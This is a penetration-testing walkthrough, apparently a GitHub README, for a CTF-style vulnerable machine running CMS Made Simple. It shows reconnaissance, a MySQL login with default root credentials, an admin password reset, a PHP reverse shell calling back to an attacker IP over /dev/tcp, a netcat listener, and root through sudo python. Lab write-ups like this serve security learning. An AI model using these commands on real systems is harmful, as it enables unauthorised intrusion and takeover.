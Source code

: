 # My-CMS Walkthrough
A complete penetration testing walkthrough of a vulnerable virtual machine running CMS Made Simple, covering reconnaissance, MySQL exploitation, reverse shell access, and privilege escalation to root. Ideal for CTF-style learning, red teaming, or ethical hacking practice.

## Target Information

* **Target IP:** `192.168.151.74`
* **Discovered CMS:** CMS Made Simple

---

## 🔍 Initial Reconnaissance

### Nmap Scan

```bash
nmap -v -sC -sV 192.168.151.74
```

### Open Ports and Services

| Port | Service | Version                                  |
| ---- | ------- | ---------------------------------------- |
| 22   | SSH     | OpenSSH 7.9p1 Debian                     |
| 80   | HTTP    | Apache 2.4.38 (CMS Made Simple detected) |
| 3306 | MySQL   | MySQL 8.0.19                             |

---

## 🛠️ Enumeration

### CMS Detected

CMS Made Simple identified via:

```text
_http-generator: CMS Made Simple - Copyright (C) 2004-2020
```

---

## 🐚 Exploiting MySQL

### Access MySQL

```bash
mysql -h 192.168.151.74 -u root -p
# Password: root
```

### Query the Database

```sql
USE database;
SHOW TABLES;

-- Dump CMS users:
SELECT username, email, password FROM cms_users;

-- Reset admin password:
UPDATE cms_users 
SET password = (SELECT MD5(CONCAT(
  IFNULL((SELECT sitepref_value 
           FROM cms_siteprefs 
           WHERE sitepref_name = 'sitemask'),''),
  'hackNos'))) 
WHERE username = 'admin';
```

---

## 📥 Reverse Shell via CMS

1. **Login to CMS** with the updated password.
2. **Navigate to** `User Defined Tags`.
3. **Insert PHP Reverse Shell Code**:

```php
system("bash -c 'bash -i >& /dev/tcp/192.168.45.215/4545 0>&1'");
```

4. **Listener on Attacker Machine**:

```bash
nc -lvnp 4545
```

5. Get a shell and read:

```bash
cat local.txt
```

---

## 🔍 Privilege Escalation Enumeration

### Run LinPEAS

Upload and run:

```bash
./linpeas.sh
```

### Found Hash in `.htpasswd`

Decryption:

```bash
echo "MFZG233VOI5FG2DJMVWGIQBRGIZQ====" | base32 -d
# Output: armour:Shield@123
```

---

## 🔐 Armour User Access

### SSH as Armour

```bash
ssh armour@192.168.151.74
# Password: Shield@123
```

---

## ⬆️ Privilege Escalation

### Check Sudo Permissions

```bash
sudo -l
# Output: (ALL) NOPASSWD: /usr/bin/python
```

### Spawn Root Shell

```bash
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🎉 Root Access Achieved

Enjoy your shell! 🎉
